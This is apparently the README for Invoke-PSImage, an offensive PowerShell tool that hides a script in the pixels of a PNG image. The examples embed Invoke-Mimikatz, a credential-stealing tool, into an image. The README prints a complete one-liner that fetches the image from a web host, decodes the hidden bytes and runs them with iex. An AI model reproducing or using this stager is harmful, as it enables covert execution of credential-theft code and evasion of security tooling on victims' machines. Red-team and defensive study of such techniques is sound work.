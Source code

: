 # Invoke-PSImage
Embeds a PowerShell script in the pixels of a PNG file and generates a oneliner to execute

Invoke-PSImage takes a PowerShell script and embeds the bytes of the script into the pixels of a PNG image. It generates a oneliner for executing either from a file of from the web (when the -Web flag is passed).

The least significant 4 bits of 2 color values in each pixel are used to hold the payload. Image quality will suffer as a result, but it still looks decent. The image is saved as a PNG, and can be losslessly compressed without affecting the ability to execute the payload as the data is stored in the colors themselves. It can accept most image types as input, but output will always be a PNG because it needs to be lossless.

Each pixel of the image is used to hold one byte of script, so you will need an image with at least as many pixels as bytes in your script. This is fairly easy—for example, Invoke-Mimikatz fits into a 1920x1200 image.

## Arguments

**-Script** [filepath]
The path to the script to embed in the Image.

**-Image** [filepath]
The image to embed the script in.

**-Out** [filepath]
The file to save the resulting image to (image will be a PNG)

**-Web**
Output a command for reading the image from the web instead of reading from a file.
You will need to host the image and insert the URL into the command.

## Example
Create an image with the script "Invoke-Mimikatz.ps1" embeded in it and output a oneliner to execute from disk:
```
PS>Import-Module .\Invoke-PSImage.ps1
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Image .\kiwi.jpg -Out .\evil-kiwi.png
   [Oneliner to execute from a file]
``` 
Create an image with the script "Invoke-Mimikatz.ps1" embeded in it and output a oneliner to execute from the web (you still have to host the image and edit the URL):
```
PS>Import-Module .\Invoke-PSImage.ps1
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Image .\kiwi.jpg -Out .\evil-kiwi.png -Web
   [Oneliner to execute from the web]
``` 
Onliner broken down from the image below
```
sal a New-Object

Add-Type -AssemblyName "System.Drawing";

$g = a System.Drawing.Bitmap((a Net.WebClient).OpenRead("https://i.imgur.com/<your.png>"));

$o = a Byte[] 2204160;(0..1147)|% {foreach($x in (0..1919)){$p = $g.GetPixel($x,$_);

$o[$_*1920+$x]=([math]::Floor(($p.B -band 15)*16) -bor ($p.G -band 15)))}};

$g.Dispose();iex([System.Text.Encoding]::ASCII.GetString($o[0..2204115])); # invoke your function

```
Executing an image hosted on the web:
![Screenshot of using Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage/raw/master/images/ps_kiwi.png)

